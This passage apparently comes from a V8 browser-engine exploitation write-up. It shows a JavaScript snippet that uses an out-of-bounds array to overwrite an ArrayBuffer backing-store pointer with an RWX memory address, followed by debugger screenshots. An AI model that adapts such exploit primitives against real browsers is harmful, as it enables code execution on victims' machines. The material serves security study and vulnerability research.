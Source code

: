 <br><br><br>

```js
// overwrite backing store
let bs = ftoi(oob_arr[12]);
bs &= 0xffffffffn;
bs |= rwx << 32n;
oob_arr[12] = itof(bs);
bs = ftoi(oob_arr[13]);
bs &= 0xffffffff00000000n;
bs |= rwx >> 32n;
oob_arr[13] = itof(bs);
```

<br><br><br>



Let's analyze this part to make it easier to understand.

<br><br><br>

![1.png](https://github.com/Adawn0106/Adawn0106.github.io/raw/main/assets/img/posts/20250212/v8(16).png)

<br><br><br>


Let's debug before and after the change.

<br><br><br>

![1.png](https://github.com/Adawn0106/Adawn0106.github.io/raw/main/assets/img/posts/20250212/v8(13).png)
